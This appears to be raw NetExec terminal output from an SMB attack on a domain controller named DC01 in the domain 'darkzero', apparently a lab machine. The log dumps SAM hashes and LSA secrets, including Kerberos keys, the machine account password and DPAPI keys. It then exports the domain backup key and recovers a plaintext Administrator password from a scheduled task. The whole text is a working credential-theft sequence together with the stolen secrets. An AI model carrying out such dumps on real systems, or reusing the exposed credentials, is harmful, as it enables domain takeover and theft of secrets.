SMB         10.129.100.222  445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.100.222  445    DC01             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[13:34:58] ERROR    SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.                                                                                                                                                                                                                                                                                                 regsecrets.py:436
SMB         10.129.100.222  445    DC01             [+] Added 3 SAM hashes to the database
SMB         10.129.100.222  445    DC01             [+] Dumping LSA secrets
SMB         10.129.100.222  445    DC01             darkzero\DC01$:aes256-cts-hmac-sha1-96:25e1e7b4219c9b414726983f0f50bbf28daa11dd4a24eed82c451c4d763c9941
SMB         10.129.100.222  445    DC01             darkzero\DC01$:aes128-cts-hmac-sha1-96:9996363bffe713a6777597c876d4f9db
SMB         10.129.100.222  445    DC01             darkzero\DC01$:des-cbc-md5:d0977abf51b92f26
SMB         10.129.100.222  445    DC01             darkzero\DC01$:plain_password_hex:3d80df5c5563bd7ceaff858df6df6b78d62abac7e53d1897ba5662fbdb87b1e9aadbffcba05119d4da831820ec0eceb6e3758dae71b091fc50432581b40e46c00fa5505867efd64172e623340589ad7a75ff9b1ac55bc894cbc0f8c5cade43f103d550451df40af3c54e5dc7de5056810ed727a12a0656f744b2a6abb9ff611b24cb4ef0f2009c896cb2b651d2476470b2a49a873198c721503f80e97336d1f03bc3ea3f11299c0660e8d2d9584f38117ab5e059a6ba76d1981b08e1f5573963f57e8dbed5115766a568d6cc73d2e08131b5d7f32d4707ce79621bd8edf117c6c5d96a09f79813271de5a3a521c3676543d855f5ce14d6effddf7dbcac00046e30c8f0359ed9ea3b59fb240e933bad36d27444782ee78616da5b403a016f019079b02be3642cf3010d6b24222e27b2b5a01df6dbe567cdbab8d93b9410771d359028f951910c3681d59bdac18bb2f98f61ddc7660f147ccb21742fe11b3516c73177f83f7a1ccff6a4a96ca887bb54dc9c247c791589e25598dfebad0d5a173e0b81ac301d5bfae9034ea7c24a753edb71028f5691a38bf408220edd67ed1f1c08bcc638a8f9488ac7098aaa8bd96644e7eb7139cbe241394c230b78ab2f6c47158c3ec51179cfb998ed76289a8a5b56bf72a2ab66430f8cf6cd959a4c830e21267614283662701fce52614dc9b4a1d3d3c205bf5aa8f7c33ca89d09f20c790a
SMB         10.129.100.222  445    DC01             darkzero\DC01$:aad3b435b51404eeaad3b435b51404ee:d02e3fe0986e9b5f013dad12b2350b3a:::
SMB         10.129.100.222  445    DC01             dpapi_machinekey:0x48249fb0f4cf23ecbef54affc2b21d65717bf7df
dpapi_userkey:0xb8820f0412fc851cca8aa426248e7f37af5dd0b2
SMB         10.129.100.222  445    DC01             [+] Dumped 6 LSA secrets to /home/kali/.nxc/logs/lsa/DC01_10.129.100.222_2025-10-05_133454.secrets and /home/kali/.nxc/logs/lsa/DC01_10.129.100.222_2025-10-05_133454.cached
SMB         10.129.100.222  445    DC01             [+] User is Domain Administrator, exporting domain backupkey...
SMB         10.129.100.222  445    DC01             [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         10.129.100.222  445    DC01             [+] Got 6 decrypted masterkeys. Looting secrets...
SMB         10.129.100.222  445    DC01             [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{BBB4AFA3-9E16-462E-A716-7A304A124E2F} - darkzero\Administrator:oV4qpuWWgvV!
```
